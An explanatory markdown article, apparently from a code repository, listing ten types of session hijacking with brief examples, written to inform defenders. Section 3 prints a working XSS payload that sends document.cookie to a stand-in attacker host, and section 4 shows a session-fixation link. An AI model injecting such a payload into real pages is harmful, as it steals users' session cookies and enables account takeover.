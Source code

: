 # Types of Session Hijacking

Session hijacking can be classified based on the methods used to steal or exploit session identifiers (Session IDs). Below are the main types of session hijacking attacks, along with explanations and examples.

---

## **1. Active Session Hijacking**

In active session hijacking, the attacker takes control of an ongoing user session by actively intercepting and altering data between the user and the server.  

### **Techniques**  
- **Man-in-the-Middle (MITM) Attack**  
  - The attacker intercepts communication between the client and server, capturing or altering data in real-time.  
  - Example: Intercepting unencrypted traffic on a public Wi-Fi network.

- **Man-in-the-Browser (MITB) Attack**  
  - A malicious program installed in the user’s browser captures or modifies session-related data before it reaches the server.  

---

## **2. Passive Session Hijacking**

In passive session hijacking, the attacker monitors the user’s session without directly interfering with the communication.  

### **Techniques**  
- **Session Sniffing**  
  - Capturing unencrypted network traffic to extract session information, such as Session IDs.  
  - Tools: Wireshark, tcpdump.

- **Monitoring Cookies**  
  - Stealing cookies stored on the client’s device to extract session credentials.

---

## **3. Cross-Site Scripting (XSS)**

Attackers inject malicious scripts into a web application to steal Session IDs from cookies or other storage mechanisms.

### **Example**  
- The attacker embeds a script in a comment section:  
  ```javascript
  <script>
    document.write('<img src="http://malicious-site.com/cookie?value=' + document.cookie + '">');
  </script>

## **4. Session Fixation**
In session fixation attacks, the attacker forces a user to use a known Session ID. Once the user logs in, the attacker hijacks the session by using the same Session ID.

### Example Process
Attacker sends a link with a pre-set Session ID to the victim:
http://example.com?sessionid=attacker123
The user logs in, and the server associates the Session ID with the victim.
The attacker reuses the Session ID to gain unauthorized access.

## **5. Sidejacking (Session Sidejacking)**
Sidejacking involves capturing session data, such as cookies, transmitted over an insecure network.

### Example
On public Wi-Fi, the attacker uses tools like Firesheep to intercept unencrypted cookies and impersonate the user.

## **6. Replay Attack**
In a replay attack, the attacker captures and reuses session data or credentials to mimic the user.

### Example
The attacker intercepts a login token and reuses it to authenticate with the server.

## **7. Cookie Theft**
Attackers steal session cookies, which contain Session IDs, to hijack the session.

Methods
Using XSS to steal cookies.
Physically accessing a device to copy stored cookies.
Malware that extracts cookies from the browser.

## **8. Social Engineering**
In social engineering-based hijacking, the attacker tricks the victim into revealing session-related information.

### Example
Phishing emails that request the user to log into a fake website, allowing the attacker to capture the Session ID.

## **9. DNS Spoofing**
The attacker redirects the victim’s traffic to a malicious server by altering DNS responses. This allows the attacker to steal or manipulate session data.

### Example
Redirecting a user from example.com to a fake website with a similar appearance and capturing the Session ID.

## **10. Token Hijacking**
Some web applications use tokens for session management. In token hijacking, the attacker steals these tokens to gain access.

### Example
Stealing OAuth tokens or JWTs (JSON Web Tokens) to impersonate the user.

## Conclusion
Session hijacking can occur through various methods, exploiting weaknesses in session management, communication protocols, and user behavior. By understanding these types, developers and security professionals can implement targeted defenses to mitigate such attacks.